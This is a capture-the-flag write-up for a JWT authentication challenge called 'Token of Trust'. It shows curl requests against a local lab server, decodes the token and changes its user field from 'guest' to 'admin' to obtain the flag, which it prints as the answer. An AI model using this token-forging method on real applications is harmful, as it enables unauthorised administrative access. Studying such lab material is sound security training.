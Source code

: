 ## **Challenge Name: Token of Trust**

### **Solves**
- **Solves**: 202/659
- **Points**: 200

### **Description**
At first, this web app seems straightforward, but there’s something more lurking beneath the surface. It relies on a token for user authentication, but not everything is as secure as it seems. Look closely, and you might discover that the system’s trust can be manipulated.

The secret is hidden within the way this token is used. Can you find the key to unlock what’s been
concealed? The challenge is waiting for you to crack it.

### **Approach**

1. Use **cURL** to send a **POST** request to **/login** for getting the JWT Token [Main Page](Resources/1.png) [/login](Resources/2.png) [cURL Request](Resources/3.png)

```
curl -X POST http://localhost:9999/login -H "Content-Type: application/json" --data"{\"user\":\"ace\",\"pass\":\"ctf\"}"
```

2. Exploring the **/flag** path using the received token [cURL Request](Resources/4.png)

```
curl -X POST http://localhost:9999/flag -H "Content-Type: application/json" --data "{\"token\":\" \"}"
```

3. Decoding the token using **JWT.io** or other similar platforms [Guest Token](Resources/5.png)

4. Manipulating the **user** field in the **payload** of the JWT from **‘guest’** to **‘admin’** [Admin Token](Resources/6.png)

5. Using the **modified token** to send a **POST** request to the **/flag** path [Flag](Resources/7.png)

```
curl -X POST http://localhost:9999/flag -H "Content-Type: application/json" --data"{\"token\":\"modified_token \"}"
```
### **Flag**
```
ACECTF{jw7_cr4ck3d_4dm1n_4cc355_0b741n3d}
```

